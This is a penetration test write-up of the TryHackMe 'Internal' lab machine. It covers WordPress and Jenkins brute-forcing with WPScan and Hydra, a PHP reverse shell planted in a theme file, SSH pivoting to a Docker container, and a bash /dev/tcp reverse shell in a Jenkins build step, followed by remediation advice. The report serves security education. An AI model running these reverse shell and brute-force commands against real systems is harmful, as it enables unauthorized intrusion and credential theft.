








# PENETRATION TEST REPORT: Internal

[](https://tryhackme.com)
[](https://tryhackme.com/room/internal)
[](#)
[](#)
[](#)

**Platform:** [TryHackMe](https://tryhackme.com)  
**Room:** [Internal](https://tryhackme.com/room/internal)  
**Difficulty:** Hard  
**Date:** 11.11.2026  
**Version:** 1.0  
**Author:** [fondgard](https://github.com/fondgard)  

**[Download Original PDF: PENETRATION TEST REPORT_ INTERNAL.pdf](./PENETRATION%20TEST%20REPORT_%20INTERNAL.pdf)**

> **DISCLAIMER:**  
> This report is a penetration testing case study conducted against the "Internal" machine within an isolated lab environment ([TryHackMe](https://tryhackme.com/room/internal)) strictly for educational, security research, and assessment purposes. All active reconnaissance, vulnerability exploitation, and internal pivoting actions were performed within the authorized scope and rules of engagement.

---

## Contents
- [1. Executive Summary](#1-executive-summary)
- [2. Scope and Rules of Engagement](#2-scope-and-rules-of-engagement)
- [3. Vulnerability Summary](#3-vulnerability-summary)
- [4. Technical Walkthrough](#4-technical-walkthrough)
  - [4.1. Information Gathering](#41-information-gathering)
  - [4.2. Initial Access and Local Lateral Movement](#42-initial-access-and-local-lateral-movement)
  - [4.3. Internal Network Pivoting](#43-internal-network-pivoting)
  - [4.4. Privilege Escalation](#44-privilege-escalation)
- [5. Recommendations](#5-recommendations)
- [6. Conclusion](#6-conclusion)
- [7. Glossary](#7-glossary)

---

## 1. Executive Summary

On 11.11.2026, a penetration test was conducted against the "Internal" server environment to identify security weaknesses and evaluate the impact of a targeted attack. Multiple high- and critical-severity vulnerabilities were identified, including exposed administrative interfaces, weak authentication controls, and plaintext credential storage on the file system. Chaining these weaknesses allowed an unauthenticated external attacker to achieve remote code execution, pivot to an internal Docker container, and escalate privileges to the host root account, resulting in a full system compromise.

## 2. Scope and Rules of Engagement

* **Target IP:** 10.113.184.42 (internal.thm)
* **Attacker VPN IP:** 192.168.137.57
* **Scope:** External network scanning, web application testing, internal service pivoting, and local privilege escalation.
* **Methodology:** PTES (Penetration Testing Execution Standard).

## 3. Vulnerability Summary

| ID | Vulnerability | Risk Level | CVSS v3.1 Score | Status |
| :--- | :--- | :--- | :--- | :--- |
| **VULN-01** | Weak Password Policy & Lack of Brute-Force Protection (WordPress) | High | 7.5 | Exploited |
| **VULN-02** | Authenticated RCE via WordPress Theme Editor | High | 7.2 | Exploited |
| **VULN-03** | Cleartext Credentials Stored in World-Readable Files | Critical | 9.0 | Exploited |
| **VULN-04** | Weak Credentials & Lack of Rate Limiting (Jenkins) | High | 7.5 | Exploited |
| **VULN-05** | Arbitrary Command Execution via Jenkins Execute Shell Build Step | High | 8.8 | Exploited |
| **VULN-06** | Lack of Internal Network Segmentation | Medium | 5.5 | Identified |

## 4. Technical Walkthrough

### 4.1. Information Gathering

Port and service enumeration was performed against 10.113.184.42 using Nmap to identify open ports and running services.

```shell
nmap -sC -sV -O 10.113.184.42
```

The scan identified two exposed services:
* 22/tcp open ssh — OpenSSH 7.6p1 (Ubuntu)
* 80/tcp open http — Apache httpd 2.4.29 (Ubuntu)

Accessing the HTTP service on port 80 returned the default Apache2 Ubuntu installation page (see Figure 1).

   
*Figure 1. Apache2 Ubuntu default page*

Directory enumeration was conducted against the web server using Gobuster with the common.txt wordlist.

```shell
gobuster dir -u http://10.113.184.42 -w /usr/share/wordlists/dirb/common.txt
```

Gobuster identified several directories returning HTTP 301 redirects, including `/blog`, `/wordpress`, and `/phpmyadmin`. Inspecting `/blog` and `/wordpress` confirmed an active WordPress Content Management System (CMS) installation that redirected requests to the hostname `internal.thm`. The `10.113.184.42 internal.thm` mapping was added to `/etc/hosts` on the testing machine to resolve the virtual host and render the application (see Figure 2).

   
*Figure 2. Internal WordPress blog*

WPScan was executed against http://internal.thm/blog to enumerate the WordPress version, installed plugins, and active user accounts.

```shell
wpscan --url http://internal.thm/blog -e u
```

The scan identified WordPress version 5.4.2 and enumerated a valid administrative username: `admin`.

The attack recovered the plaintext password for `admin`, providing administrative access to the WordPress dashboard (see Figure 3).

```shell
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
```

A dictionary attack via wordlist was executed against the WordPress authentication endpoint for the `admin` account using WPScan and `/usr/share/wordlists/rockyou.txt`.

   
*Figure 3. Logging into admin panel*

Administrative access permitted modification of theme source files through the WordPress Theme Editor. The `404.php` template inside the `twentyseventeen` theme was replaced with a PentestMonkey PHP reverse shell payload configured to connect back to `192.168.137.57:4444`. A Netcat listener was started on the attacking host, and the payload was triggered by requesting `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`.

```shell
nc -lvnp 4444
listening on [any] 4444
connect to [192.168.137.57] from (UNKNOWN) [10.113.184.42] 57754
```

### 4.2. Initial Access and Local Lateral Movement

The reverse shell executed under the `www-data` service account. Local host enumeration identified a standard user account, `aubreanna`, under `/home/aubreanna`, which `www-data` lacked permissions to read. Further inspection of the file system located a world-readable file at `/opt/wp-save.txt` containing plaintext credentials for `aubreanna` (see Figure 4).

   
*Figure 4. wp-save.txt*

Using these credentials, an SSH session was established as `aubreanna` on 10.113.184.42, providing stable shell access and demonstrating user-level proof of compromise via `/home/aubreanna/user.txt`.

### 4.3. Internal Network Pivoting

Enumeration of `/home/aubreanna` identified a note named `jenkins.txt`, which stated that an internal Jenkins automation server was running on a Docker container at `172.17.0.2:8080`. Because `172.17.0.2:8080` was bound only to the internal Docker network, an SSH local port forward was established from the attacking machine through the `aubreanna` SSH session.

Navigating to `http://localhost:8080` exposed the Jenkins authentication portal. A dictionary attack via wordlist was executed against the HTTP POST login form using Hydra with the username `admin` and `/usr/share/wordlists/rockyou.txt`.

```shell
ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm
```

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

Hydra recovered the valid password for the Jenkins `admin` account, granting administrative access to the Jenkins web interface (see Figure 5).

   
*Figure 5. Brute force using Hydra*

### 4.4. Privilege Escalation

Administrative access in Jenkins permits arbitrary operating system command execution through project build configurations. A new Jenkins project was created and configured with an "Execute Shell" build step containing a Bash reverse shell payload directed to `192.168.137.57:5555`.

```shell
bash -i >& /dev/tcp/192.168.137.57/5555 0>&1
```

Triggering the build job established a reverse shell connection on the listener, providing interactive access to the Jenkins environment (see Figure 6).

   
*Figure 6. Getting reverse shell as Jenkins*

Host enumeration confirmed that the session was running inside an isolated Docker container rather than on the underlying host operating system. Inspection of the container's `/opt` directory identified a text file at `/opt/note.txt` left by an administrator ("Bill"), which contained the plaintext password for the root account on the primary host server (see Figure 7).

   
*Figure 7. Note from the tech administrator Bill*

Using the credentials from `/opt/note.txt`, an SSH connection was established to 10.113.184.42 as root (see Figure 8).

   
*Figure 8. SSH root session*

This provided unrestricted administrative control over the host operating system and demonstrated full system proof of compromise via `/root/root.txt`.

## 5. Recommendations

The following technical controls are recommended to remediate the identified vulnerabilities:

### Credential Management & Data Storage
* **Eliminate Plaintext Secrets:** Delete `/opt/wp-save.txt` on the host system and `/opt/note.txt` inside the Jenkins Docker container, and rotate the passwords for `aubreanna` and `root`.
* **Implement Secret Management:** Store application and infrastructure credentials in a dedicated secrets manager (such as HashiCorp Vault) rather than in plaintext files on disk.
* **Enforce Principle of Least Privilege:** Restrict file permissions on sensitive configuration files (e.g., `chmod 600`) so service accounts such as `www-data` cannot read local user or administrative data.

### Authentication & Access Control
* **Enforce Strong Password Policies:** Require high-entropy passwords across all web administrative accounts (`admin` on WordPress and Jenkins) to prevent dictionary attacks via common wordlists.
* **Implement Rate Limiting & Account Lockout:** Deploy request throttling or IP blocking (such as Fail2Ban or a Web Application Firewall) on `/blog/wp-login.php` and the Jenkins `/j_acegi_security_check` endpoint.
* **Enable Multi-Factor Authentication (MFA):** Enforce MFA on all externally and internally accessible administrative portals.

### Application Security (WordPress & Jenkins)
* **Disable WordPress File Editing:** Disable the built-in theme and plugin editor by setting `define('DISALLOW_FILE_EDIT', true);` in `wp-config.php` to prevent authenticated administrators from modifying PHP files via the web UI.
* **Restrict Jenkins Build Execution:** Restrict permissions for creating jobs and configuring "Execute Shell" build steps using the Jenkins Role-Based Authorization Strategy plugin, and run build agents on dedicated least-privilege worker nodes.

### Network Security & Architecture
* **Harden Internal Network Segmentation:** Restrict access to the internal Docker bridge (`172.17.0.0/16`) using host firewall rules, disable SSH TCP port forwarding (`AllowTcpForwarding no` in `/etc/ssh/sshd_config`) for standard users where not required, and enforce authentication controls on internal services regardless of network location.

## 6. Conclusion

The penetration test of the "Internal" environment demonstrated that an unauthenticated external attacker could achieve full host root compromise by chaining weak web application passwords, unrestricted PHP template editing in WordPress, cleartext credential files stored in `/opt`, and unthrottled authentication on an internal Jenkins container. Remediating the plaintext credential storage in `/opt/wp-save.txt` and `/opt/note.txt`, enforcing strong passwords with rate limiting, and hardening WordPress and Jenkins administrative capabilities will mitigate these attack paths.

## 7. Glossary

* **Brute-Force / Dictionary Attack** - An automated method used to identify user credentials by systematically testing passwords from a predefined wordlist (`rockyou.txt`) against an authentication endpoint.
* **CMS (Content Management System)** - A web application used to create and manage digital content, such as WordPress.
* **Pivoting** - A post-exploitation technique used to route traffic through an initially compromised host (via tools such as SSH port forwarding) to reach otherwise inaccessible internal network segments.
* **RCE (Remote Code Execution)** - A vulnerability or misconfiguration that allows an attacker to execute arbitrary operating system commands on a target machine.
* **SSH (Secure Shell)** - A cryptographic network protocol used for secure remote command-line login and network port forwarding.
